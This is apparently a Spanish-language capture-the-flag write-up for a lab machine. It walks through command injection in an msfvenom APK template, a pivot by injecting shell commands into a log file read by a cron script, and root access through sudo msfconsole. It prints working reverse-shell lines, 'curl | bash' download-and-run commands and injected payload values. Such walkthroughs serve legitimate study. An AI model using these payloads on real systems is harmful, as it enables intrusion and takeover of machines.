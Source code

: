 ## Summary

Tags: 
Y
- IP -> 10.10.10.226
- Ports -> TCP (22, 5000), UDP (idk)
- OS ->  Ubuntu Focal
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
    - 5000 -> Werkzeug httpd 0.16.1 (python 3.8.5)

## Recon
- Comando -> **whatweb http://10.10.10.226:5000** Miramos el gestor de contenidos

Miramos la pagina Web en ese puerto especifico, y encontramos que:
1. En la primer parte se puede ejecutar el comando nmap
2. En la segunda parte de puede ejecutar por detras el comando msfvenom (Windows, Linux y Android)
3. En la tercer parte se podria estar ejecutando el comando searchsploit

- Comando -> **searchsploit msfvenom** Para buscar vulnerabilidades asociadas con msfvenom, y encontramos una que te crea un APK malicioso
- Comando -> **searchsploit -m msfvenom** Nos traemos el exploit **.py** a nuestra maquina, despues lo miramos con **cat** y en una parte del exploit lo modificamos de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'ping -c 1 10.10.14.17'** Haremos que nos ejecute un ping a nuestra maquina
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK  
- Comando -> **chown omarv:omarv -R /tmp/tmp7/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse, antes de ejecutarlo nos ponemos en escucha
- Comando -> **tcpsump -i tun0 icmp -n** Nos ponemos en escucha para trazas icmp y asi recibir el ping y recibimos los ping

Nos damos cuenta que tenemos ejecucion remota de comandos, por lo que nos creamos un archivo asi:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que nos puedan hacer el curl

Volvemos a modificar el **msfvenom** de la siguiente manera en la parte de payload: 
	nano msfvenom.py
		**payload = 'curl 10.10.14.17 | bash'** Haremos que nos ejecute un curl a nuestra maquina, el cual buscara el index.html que habiamos creado
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK
- Comando -> **chown omarv:omarv -R /tmp/tmp8/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, para recibir la peticion y nos de una revershell

## User
Una vez dentro tratamos la consola 
Nos creamos una pseudo consola con los siguientes comandos.
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

Obtenemos acceso a la maquina victima pero estamos como el usuario kid, por lo que buscamos la flag **user.txt**

Encontramos una dir llamado **logs**, el cual tiene los privilegios 777 y contiene un archivo llamado **hackers** el cual no tiene contenido y si le metemos algo este desaparece, por lo que nos descargaremos el **pspy** para detectar los procesos que estan corriendo.

Buscamos en Google pspy (**pspy-monitor Linux Github**), nos dirigimos a los releases y nos descargamos el **pspy64**, el cual se descargara en la carpeta de Downloads.

- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **upx pspy** Para bajarle el peso al archivo
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que cuando nos hagan un wget puedan cargar el archivo pspy
- Comando -> **wget http:/10.10.14.17/pspy** Para poder cargar un archivo especifico desde una IP, en este caso nuestra IP y nos cargaremos el pspy
En la maquina victima le damos permisos de ejecucion 
- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **./pspy** Ejecutamos el archivo, despues en la pagina web mandamos algo por el campo searchsploit y miramos que sucede

Nos damos cuenta que se esta ajecutando un nmap top 10 open ports, en donde hay un usuario llamado **pwn** que ejecuta un archivo **scanlosers.sh**. Al momento de inspeccionar ese archivo con un **cat**, nos damos cuenta que contine la siguiente:
	nano scanlosers.sh
		#!bin/bash
		log=/home/kids/log/hacker
		cd /home/pwd
		cat $log | cut -d' ' **-f3-** | sort u | while read ip; do
			sh -c "nmap --top-ports 10 -oN reccon/${**ip**}.nmap ${ip} 2>&1 >/dev/null" & 
         done 
         
Podemos que primero usa el archivo **hackers** que habiamos encontrado en el dir log, luego observamos que se mueve de directorio y al archivo hackers le hace un filtro con cut, y despues filtra por el -f3- significa que es el tercer campo, pero tambien nos indica que no solo agarra el tercer argumento que entra, sino que tambien agarra todos los argumentos despues de este, y lo que obtiene es una IP, por lo que ahi podriamos meter codigo para que ese se ejecute. 

Por lo que hacemos lo siguiente:
- **cd /home/kids/logs** Nos metemos al directorio de los log, para modificar el archivo hackers
- **echo "[2022-09-06 20:26:59] 10.10.14.17; ping -c 1 10.10.14.17 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un ping a nuestra maquina por lo que nos ponemos en escucha. 
- **tcpdump -i tun0 icmp -n** Nos ponemos en escucha para recibir los los icmp
Una vez que miramos que si nos dan los ping, hacemos lo siguiente...

- **echo "[2022-09-06 20:26:59] 10.10.14.17; whoami | nc 10.10.14.17 443 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos regresara el usuairo de whoami
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, todo esto con el fin de probar


- **echo "[2022-09-06 20:26:59] 10.10.14.17; curl 10.10.14.17 443 | bash  #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un curl buscando el archivo index.html el cual ya estamos compartiendo y tiene una revershell

Usaremos el comando que ya habiamos creado:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**

- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443

Y asi es como se hace el Pivoting al usuario pwd.

## Root

Una vez siendo el usuario Pwn

- Comando -> **sudo -l** Para ver los privilegios de sudoers, y descubrimos que que podemos ejecutar metasploit como el usuario root sin password (root) NO PASSWD : /opt/metasploit-framework-6.0.9/msfconsole

- Comando -> **sudo msfconsole -q** Abrimos el metaesploit como usuario root

Una vez adentro de metasploit 
- Comando -> **irb** Para conseguir una consola interactiva de Ruby
- >**system("whoami")** Podemos ejecutar comandos
- >**system("bash")** Nos da directamente una consola bash 
